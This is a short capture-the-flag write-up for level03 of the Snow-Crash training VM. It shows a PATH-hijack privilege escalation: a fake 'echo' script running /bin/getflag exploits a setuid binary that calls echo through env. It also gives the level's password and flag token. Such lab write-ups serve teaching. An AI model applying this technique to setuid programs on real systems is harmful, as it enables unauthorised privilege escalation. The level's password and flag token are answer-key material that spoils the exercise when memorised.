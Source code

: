 # Flag 03

- Access to Snow-Crash VM using level03/kooda2puivaav1idi4f57q8iq credential
```
e1r9p7% ssh -p 4242 level03@10.11.100.146
```

- `ll`
```
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03*
```

- Try to run the binary
```
level03@SnowCrash:~$ ./level03 
Exploit me
```

- Try te read it wth Strings
```
[^_]
/usr/bin/env echo Exploit me
;*2$"
```

- Do Some searchs in google:
```
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code/8304447
```

- So the vulnerable in this binary is:
> I can override `PATH` var to redirect to my own `echo`, because `echo` is executed using `enn` not treated as built-in.

- I will create my own `echo` to exec `/bin/getflag` and add it to `PATH`
```
level03@SnowCrash:~$ echo "/bin/getflag" > /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```